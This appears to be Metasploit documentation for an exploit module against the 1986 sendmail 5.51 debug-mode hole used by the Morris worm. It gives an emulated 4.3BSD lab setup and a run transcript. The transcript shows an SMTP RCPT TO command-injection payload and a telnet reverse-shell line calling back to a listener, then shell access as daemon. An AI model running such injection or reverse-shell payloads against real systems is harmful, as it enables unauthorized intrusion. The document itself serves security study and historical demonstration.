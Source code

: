 ## Vulnerable Application

### Description

This module exploits `sendmail`'s well-known historical debug mode to
escape to a shell and execute commands in the SMTP `RCPT TO` command.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

### Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets `sendmail` version 5.51 from 1986-05-02.

## Options

### RPORT

Set this to the target port. The default is 25 for `sendmail`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

### PAYLOAD

Set this to a Unix command payload. Currently, only `cmd/unix/reverse`
and `cmd/unix/generic` are supported.

## Scenarios

### `sendmail` 5.51 on 4.3BSD

```
msf > use exploit/unix/smtp/morris_sendmail_debug
msf exploit(unix/smtp/morris_sendmail_debug) > options

Module options (exploit/unix/smtp/morris_sendmail_debug):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   25               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)version.c       5.51 (Berkeley) 5/2/86


msf exploit(unix/smtp/morris_sendmail_debug) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(unix/smtp/morris_sendmail_debug) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(unix/smtp/morris_sendmail_debug) > run

[*] Started reverse TCP double handler on 192.168.56.1:4444
[*] 127.0.0.1:25 - Connecting to sendmail
[*] 127.0.0.1:25 - Enabling debug mode and sending exploit
[*] 127.0.0.1:25 - Expecting: /220.*Sendmail/
[*] 127.0.0.1:25 - Sending: DEBUG
[*] 127.0.0.1:25 - Expecting: /200 Debug set/
[*] 127.0.0.1:25 - Sending: MAIL FROM:<3V900gQTSR70m6QPRYJnf3eoUIe6>
[*] 127.0.0.1:25 - Expecting: /250.*Sender ok/
[*] 127.0.0.1:25 - Sending: RCPT TO:<"| sed '1,/^$/d' | sh; exit 0">
[*] 127.0.0.1:25 - Expecting: /250.*Recipient ok/
[*] 127.0.0.1:25 - Sending: DATA
[*] 127.0.0.1:25 - Expecting: /354 Enter mail.*itself/
[*] 127.0.0.1:25 - Sending:  PATH=/bin:/usr/bin:/usr/ucb:/etc
[*] 127.0.0.1:25 - Sending: export PATH
[*] 127.0.0.1:25 - Sending: sh -c '(sleep 3935|telnet 192.168.56.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.56.1 4444 >/dev/null 2>&1 &)'
[*] 127.0.0.1:25 - Sending: .
[*] 127.0.0.1:25 - Expecting: /250 Ok/
[*] 127.0.0.1:25 - Sending: QUIT
[*] 127.0.0.1:25 - Expecting: /221.*closing connection/
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ISj759F8jEik4HAW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "sh: Connected: not found\r\nsh: Escape: not found\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (192.168.56.1:4444 -> 192.168.56.1:58037) at 2020-02-06 15:51:28 -0600
[!] 127.0.0.1:25 - Do NOT type `exit', or else you may lose further shells!
[!] 127.0.0.1:25 - Hit ^C to abort the session instead, please and thank you

whoami
daemon
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
